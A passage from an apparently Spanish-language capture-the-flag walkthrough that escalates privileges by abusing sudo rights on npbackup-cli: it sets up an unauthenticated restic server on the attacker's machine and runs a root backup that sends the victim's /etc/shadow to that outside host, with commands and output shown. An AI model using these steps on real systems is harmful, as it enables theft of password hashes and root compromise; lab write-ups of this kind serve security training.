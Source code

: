 Vamos a inicializar un repositorio y un servidor de `restic` en nuestra maquina atacante de esta forma:

```shell
go install github.com/restic/rest-server/cmd/rest-server@latest
export PATH=$PATH:$(go env GOPATH)/bin
mkdir /opt/restic-repos
rest-server --path /opt/restic-repos --no-auth --listen :6666
```

Info:

```
Data directory: /opt/restic-repos
Authentication disabled
Append only mode disabled
Private repositories disabled
Group accessible repos disabled
start server on [::]:6666
```

Con esto ya vamos a tener nuestro servidor a la escucha, ahora vamos a inicializar un repo en dicho servidor de dicha ruta establecida:

```shell
snap install restic --classic
/snap/bin/restic init -r "rest:http://<IP>:6666/Pwn3d"
```

Metemos como contraseña lo que queramos, en mi caso puse `diseo` y con esto se nos creara nuestro repo llamado `Pwn3d`, ahora desde la maquina victima nos vamos a pasar el archivo `/etc/shadow`.

Primero como el repo va con contraseña, vamos a crear un archivo con la contraseña en texto plano para posteriormente pasarsela a la herramienta:

```shell
echo "diseo" | tee /tmp/restic-password > /dev/null
chmod 777 /tmp/restic-password
```

Ahora habiendo creado este archivo, vamos a utilizarlo como contraseña para realizar la conexion a nuestro servidor del atacante y que nos realice un `backup` del archivo `shadow` de esta forma:

```shell
sudo /usr/local/bin/npbackup-cli -c /home/marco/npbackup.conf --raw "backup -r 'rest:http://<IP_ATTACKER>:6666/Pwn3d' --password-file /tmp/restic-password /etc/shadow"
```

Info:

```
2025-09-19 16:29:01,251 :: INFO :: npbackup 3.0.1-linux-UnknownBuildType-x64-legacy-public-3.8-i 2025032101 - Copyright (C) 2022-2025 NetInvent running as root
2025-09-19 16:29:01,282 :: INFO :: Loaded config 4E3B3BFD in /home/marco/npbackup.conf
2025-09-19 16:29:01,294 :: INFO :: Running raw command: backup -r 'rest:http://10.10.14.85:6666/Pwn3d' --password-file /tmp/restic-password /etc/shadow
no parent snapshot found, will read all files

Files:           1 new,     0 changed,     0 unmodified
Dirs:            1 new,     0 changed,     0 unmodified
Added to the repository: 2.027 KiB (1.210 KiB stored)

processed 1 files, 1.339 KiB in 0:00
snapshot 8ba0bb36 saved
2025-09-19 16:29:04,211 :: INFO :: Successfully run raw command:
no parent snapshot found, will read all files

Files:           1 new,     0 changed,     0 unmodified
Dirs:            1 new,     0 changed,     0 unmodified
Added to the repository: 2.027 KiB (1.210 KiB stored)

```